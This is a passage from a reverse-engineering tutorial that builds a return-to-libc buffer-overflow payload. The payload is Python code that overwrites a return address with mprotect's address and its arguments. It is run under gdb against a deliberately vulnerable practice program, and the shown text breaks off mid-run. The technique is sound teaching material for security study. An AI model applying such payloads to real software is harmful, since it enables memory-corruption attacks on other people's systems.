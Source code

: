 Now, let us build the payload. 

python's **struct** module has function called **pack**. It will take an integer and turn it into required form of binary data. 

We need to convert each one of these variables into 4-bytes of little-endian binary data. So, the following will do it for us. 

        # First, fill in with required amount of junk.
        payload = junk_length * 'a'

        # mprotect's address in little-endian form. This will overwrite func's return address. 
        payload += struct.pack('<I', mprotect_address)

         # mprotect's return address
        payload += struct.pack('<I', return_address)
        
        # The 3 arguments, each in little-endian form. 
        payload += struct.pack('<I', argument0)
        payload += struct.pack('<I', argument1)
        payload += struct.pack('<I', argument2)

The **<I** signifies 4-byte little-endian unsigned data. The second is the integer we want to convert. 

Now, the payload is ready. We will write it into a file **exploit.txt**. 

        f = open("exploit.txt", "wb")
        f.write(payload)
        f.close()

You can download the script from [here](/assets/2019-03-05-return-to-libc-part2.md/exploit.py). 

Note that these addresses, arguments might be different for you. Change the script to suit your exploit. 

Let us run the exploit and get **exploit.txt**. 

    rev_eng_series/post_15}=)> chmod u+x exploit.py
    rev_eng_series/post_15}=)> ./exploit.py 

### d. Exploit it!

We will run the vulnerable program (defeat) in gdb and see if our exploit is successful or not. 

    rev_eng_series/post_15}=)> gdb -q defeat
    Reading symbols from defeat...(no debugging symbols found)...done.
    gdb-peda$ b func
    Breakpoint 1 at 0x8048441
    gdb-peda$ run < exploit.txt
    Starting program: /home/adwi/ALL/rev_eng_series/post_15/defeat < exploit.txt
    Before calling func
